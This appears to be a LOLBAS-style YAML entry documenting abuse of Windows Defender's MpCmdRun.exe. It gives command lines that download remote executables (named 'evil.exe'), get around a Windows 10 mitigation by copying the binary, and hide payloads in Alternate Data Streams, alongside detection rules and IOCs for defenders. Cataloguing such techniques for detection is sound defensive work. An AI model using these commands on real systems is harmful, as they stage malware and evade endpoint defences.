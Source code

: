```yaml
---
Name: MpCmdRun.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender
Author: Oddvar Moe
Created: 2020-03-20
Commands:
  - Command: MpCmdRun.exe -DownloadFile -url {REMOTEURL:.exe} -path {PATH_ABSOLUTE:.exe}
    Description: Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path)
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10
  - Command: copy "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" C:\Users\Public\Downloads\MP.exe && chdir "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\" && "C:\Users\Public\Downloads\MP.exe" -DownloadFile -url {REMOTEURL:.exe} -path C:\Users\Public\Downloads\evil.exe
    Description: Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path) [updated version to bypass Windows 10 mitigation]
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10
  - Command: MpCmdRun.exe -DownloadFile -url {REMOTEURL:.exe} -path {PATH_ABSOLUTE:.exe}:evil.exe
    Description: Download file to machine and store it in Alternate Data Stream
    Usecase: Hide downloaded data into an Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.4-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.7-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe
  - Path: C:\Program Files\Windows Defender\MpCmdRun.exe
  - Path: C:\Program Files (x86)\Windows Defender\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.23110.3-0\X86\MpCmdRun.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/159bf4bbc103cc2be3fef4b7c2e7c8b23b63fd10/rules/windows/process_creation/win_susp_mpcmdrun_download.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/6ef5c53b0c15e344f0f2d1649941391aea6fa253/rules/windows/command_and_control_remote_file_copy_mpcmdrun.toml
  - IOC: MpCmdRun storing data into alternate data streams.
  - IOC: MpCmdRun retrieving a file from a remote machine or the internet that is not expected.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching mpcmdrun.exe.
  - IOC: Monitor for the creation of %USERPROFILE%\AppData\Local\Temp\MpCmdRun.log
  - IOC: User Agent is "MpCommunication"
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus
  - Link: https://twitter.com/mohammadaskar2/status/1301263551638761477
  - Link: https://twitter.com/Oddvarmoe/status/1301444858910052352
  - Link: https://twitter.com/NotMedic/status/1301506813242867720
Acknowledgement:
  - Person: Askar
    Handle: '@mohammadaskar2'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: RichRumble
  - Person: Cedric
    Handle: '@th3c3dr1c'
---
```

